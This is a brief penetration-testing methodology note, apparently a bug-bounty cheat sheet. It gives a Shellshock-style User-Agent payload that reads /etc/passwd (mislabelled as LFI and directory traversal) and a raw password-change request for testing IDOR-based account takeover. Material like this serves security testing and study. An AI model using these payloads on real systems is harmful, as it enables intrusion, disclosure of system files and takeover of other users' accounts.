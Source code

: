 # Methodolgy: LFI



#### 1. Directory Transversal look for <kbd>GET /cgi-bin/status</kbd> and set the User-Agent to

```
User-Agent: {:;}; echo $(</etc/passwd)
```


# Methodolgy: IDOR

IDOR in the password change functionality

#### 1. Try to change password and check the raw request with Burp Suite

```
POST /api/change_password HTTP/1.1
HOST: redacted.com
Cookie: ci_session= kefrsfdsdfmsdfldgh?h
Accept: application/json

{
    "account":"{username}",
    "password":"{password}"
}
```
#### 2. Input any valid user account and input any password


